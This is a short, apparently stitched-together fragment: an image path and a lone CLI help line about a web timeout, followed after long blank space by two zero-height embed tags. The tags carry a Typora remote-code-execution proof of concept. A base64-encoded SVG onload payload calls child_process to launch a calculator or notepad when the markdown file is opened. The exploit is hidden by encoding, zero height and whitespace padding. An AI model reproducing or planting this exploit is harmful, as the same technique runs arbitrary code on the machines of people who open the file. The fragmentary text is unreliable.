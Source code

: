   -wt int
        Set web timeout (default 5)












<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ2NhbGMnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">

<embed style="height:0;" src="typora://app/typemark/updater/updater.html?curVersion=111&newVersion=222&releaseNoteLink=333&hideAutoUpdates=false&labels=[%22%22,%22%3csvg%2fonload=top.eval(atob('cmVxbm9kZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoKHtXaW4zMjogJ25vdGVwYWQnLCBMaW51eDogJ2dub21lLWNhbGN1bGF0b3IgLWUgIlR5cG9yYSBSQ0UgUG9DIid9KVtuYXZpZ2F0b3IucGxhdGZvcm0uc3Vic3RyKDAsNSldKQ=='))><%2fsvg>%22,%22%22,%22%22,%22%22,%22%22]">




